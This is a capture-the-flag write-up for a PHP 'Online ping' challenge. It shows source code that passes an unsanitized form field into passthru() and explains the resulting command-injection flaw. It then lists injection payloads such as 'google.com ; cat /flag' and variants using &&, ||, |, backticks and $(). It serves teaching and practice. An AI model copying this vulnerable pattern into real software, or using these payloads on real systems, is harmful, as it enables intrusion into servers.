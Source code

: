 1. Goes into the webpage
2. See source code
3. click

```php
<?php
register_shutdown_function('finish');
function finish(){
    echo('<p><a href="?-s">Show Source</a></p>');
}
if(isset($_GET['-s'])){
    highlight_file(__FILE__);
    die();
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Online ping</title>
</head>
<body>
  <h1>Online ping</h1>
  <p>Welcome to my first php program! Introducing the online ping service!</p>

<?php
  $hostname = @$_POST['hostname'];
  if (isset($hostname)) {
    echo "<pre>";
    passthru("ping -c 1 -W 1 $hostname");
    echo "</pre>";
  }
?>

<form method="post">
  <input type="text" name="hostname" placeholder="(e.g. google.com)" />
  <input type="submit" value="Ping" />
</form>

</body>
</html>
```

We can then see the php source code

```php 

<?php
  $hostname = @$_POST['hostname'];
  if (isset($hostname)) {
    echo "<pre>";
    passthru("ping -c 1 -W 1 $hostname");
    echo "</pre>";
  }
?>
```

Here the above code is vulnerable because `hostname` received from the html form 
```html 
<form method="post">
  <input type="text" name="hostname" placeholder="(e.g. google.com)" />
  <input type="submit" value="Ping" />
</form>
```
later passed into `$hostname` is never sanitized. Which allows stuff like `;`, `&&`, etc. that allows multiple commands to be passed in as well. 

```
├── flag           # Here's our flag file
├── var
│   └── www
│       └── html   # We are here
│           └── index.php
```

Since we are currently based in /var/www/html/ by default, we can use the absolute path `/flag` access the file that contains the flag (Note that `/` here means `root` directory) 

Therefore, the command we inject can be something like:

- cat /flag. Injected by `;` looks like this `google.com ; cat /flag`


### Alternative methods:
1. Using &&: google.com && cat /flag
2. Using ||: google.com || cat /flag
3. Using |: google.com | cat /flag
4. Using backticks: `cat /flag`
5. Using $(): $(cat /flag)
